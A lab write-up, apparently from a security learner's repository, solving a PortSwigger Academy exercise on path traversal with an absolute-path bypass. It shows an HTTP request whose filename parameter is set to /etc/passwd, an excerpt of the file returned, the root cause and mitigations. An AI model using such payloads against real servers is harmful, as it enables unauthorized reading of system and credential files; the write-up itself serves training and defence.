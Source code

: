 # Lab Report: File Path Traversal (Absolute Path Bypass)

## Overview
This lab demonstrates a **File Path Traversal vulnerability** where traversal sequences such as `../` are blocked.  
However, the application can still be exploited using **absolute file paths**, allowing unauthorized access to sensitive system files.  

The goal of this lab was to retrieve the contents of the `/etc/passwd` file.

---

## Steps to Exploitation

### 1. Initial Request
The application used a request parameter `filename` to fetch image files.  
An attempt with relative traversal (`../../../../etc/passwd`) was blocked.  

### 2. Absolute Path Injection
Instead of relative traversal, the payload was modified to include an **absolute path**:  

```http
GET /image?filename=/etc/passwd HTTP/2
Host: <LAB-ID>.web-security-academy.net
Cookie: session=<valid-session-cookie>
User-Agent: Mozilla/5.0
Accept: image/avif,image/webp,*/*
```

### 3. Server Response
The server returned the contents of `/etc/passwd`, proving successful exploitation:

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

---

## Evidence

### Exploit Request and Response
![Exploit Request and Response](/images/File-path-traversal-1.jpg)

### Lab Solved Confirmation
![Lab Solved](/images/File-path-traversal-2-lab-solved.jpg)

---

## Result
- Retrieved sensitive system file: `/etc/passwd`  
- Confirmed path traversal vulnerability with absolute path bypass  
- Lab status:  
  ✅ *"Congratulations, you solved the lab!"*

---

## Root Cause
- Application filtered relative traversal sequences (`../`) but failed to validate **absolute paths**.  
- No canonicalization or whitelist-based validation of file paths was performed.  

---

## Mitigation
1. **Use Whitelisting** – Restrict file access to specific directories and predefined filenames.  
2. **Canonicalization** – Normalize file paths before usage to remove traversal attempts.  
3. **Avoid Direct File References** – Use indirect object references (IDs) instead of filenames in user input.  
4. **Input Validation** – Reject dangerous characters and sequences in user-supplied input.  

---

## Skills Demonstrated
- Testing for path traversal vulnerabilities  
- Bypassing filters using absolute path injection  
- Retrieving sensitive files from the server (`/etc/passwd`)  
- Confirming exploitation with Burp Suite evidence  

---

## References
- [PortSwigger Academy: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)  
- [OWASP: Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)  
